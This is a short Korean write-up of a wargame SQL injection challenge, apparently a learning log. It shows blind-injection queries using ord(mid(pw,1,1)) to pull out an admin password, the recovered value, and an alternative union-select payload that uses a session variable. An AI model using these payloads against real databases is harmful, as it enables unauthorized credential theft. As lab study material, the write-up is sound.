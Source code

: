 ```diff
# 현재 쿼리문: where id='admin' and pw=''||ord(mid(pw,1,1))<50865-- '
```
```
해결 쿼리문: where id='admin' and pw='우왕굳'
```
### CERT <br> Python 코드 : [패스워드 길이 탐색](code/19_pwlength.py)

### 느낀점
```diff
+ 1. ascii(), ord() 함수를 자세히 배울 수 있었다.
+ ascii(): 2byte 이상 값 반환 X
+ ord(): 2byte 이상 값 반환

+ 2. DB에 저장된 것의 바이트 값에 대해 새롭게 배웠다.
+ 문자, 숫자: 1byte 차지
+ 한글: 3byte(utf - 8), 4byte(utf)
```

### 다른 풀이
1. ?pw='||(select @a:=pw where id='admin') union select @a %23
   - @local_variable="aaaa"
   - => 변수 선언
   - => 변수 선택
   - => union select로 변수를 결과 테이블에 합쳐서 출력
